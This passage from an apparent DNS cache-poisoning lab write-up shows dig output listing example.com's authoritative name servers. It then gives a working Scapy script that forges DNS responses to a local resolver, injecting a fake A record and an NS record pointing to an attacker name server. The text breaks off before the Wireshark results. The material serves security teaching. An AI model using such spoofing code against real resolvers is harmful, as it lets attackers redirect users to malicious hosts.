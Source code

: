     ;; ANSWER SECTION:
    example.com.		85661	IN	NS	b.iana-servers.net.
    example.com.		85661	IN	NS	a.iana-servers.net.

    ;; ADDITIONAL SECTION:
    a.iana-servers.net.	1061	IN	A	199.43.135.53
    b.iana-servers.net.	1061	IN	A	199.43.133.53
    a.iana-servers.net.	1061	IN	AAAA	2001:500:8f::53
    b.iana-servers.net.	1061	IN	AAAA	2001:500:8d::53

    ;; Query time: 0 msec
    ;; SERVER: 10.9.0.53#53(10.9.0.53)
    ;; WHEN: Sun Oct 12 12:14:13 UTC 2025
    ;; MSG SIZE  rcvd: 204
    ```

- We see that the authoritative name servers for `example.com` are `a.iana-servers.net`, IP address `199.43.135.53` and `b.iana-servers.net`, IP address `199.43.133.53`.
- Now that we know the IP addresses of the authoritative name servers, we can proceed to spoof DNS responses.
- similar to task 2, we use 53 for `dport` when sending the IP address, and for `sport` when spoofing the response, since that is the port used for DNS requests.
- 
- We use the `spoof_dns_resp.py` code below:
- ```python
    from scapy.all import *

    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server
    ns_ip_addrs = ['199.43.135.53', '199.43.133.53'] # ip addresses of authoritative name servers for example.com
    domain = 'example.com' 
    name = 'www.example.com'
    ns_attacker = 'ns.attacker32.com' # attacker name server
    port = RandShort() # random source port

    #send spoofed responses 
    for ipns in ns_ip_addrs:
        Qdsec = DNSQR(qname=name)
        Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
        NSsec = DNSRR(rrname=domain, type='NS', rdata=ns_attacker, ttl=259200)
        dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
        ip = IP(dst=local_dns_ip, src=ipns)
        udp = UDP(dport=33333, sport=53, chksum=0)
        reply = ip/udp/dns
        send(reply)
    ```
- When we run the python code above, we see this in wireshark: